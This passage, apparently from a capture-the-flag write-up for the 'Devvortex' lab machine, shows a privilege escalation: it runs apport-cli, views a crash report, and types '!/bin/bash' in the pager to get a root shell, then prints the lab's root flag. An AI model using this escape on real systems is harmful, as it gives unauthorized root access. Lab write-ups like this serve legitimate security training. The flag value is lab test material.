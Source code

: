 First we need to create a report, that will be read from the `apport-cli` which is a tool for collecting data from crashed processes.

```sh
apport-cli -f
```

Then just choose some options for a random imaginary problem.

In the end choose to view the report, and put `!/bin/bash`.

Now, you have`root` access.

```sh
root@devvortex:/home/logan# cd /root
root@devvortex:~# ls
root.txt
root@devvortex:~# cat root.txt
2faacbc9dc44b16f8a93131cd663db1b
```

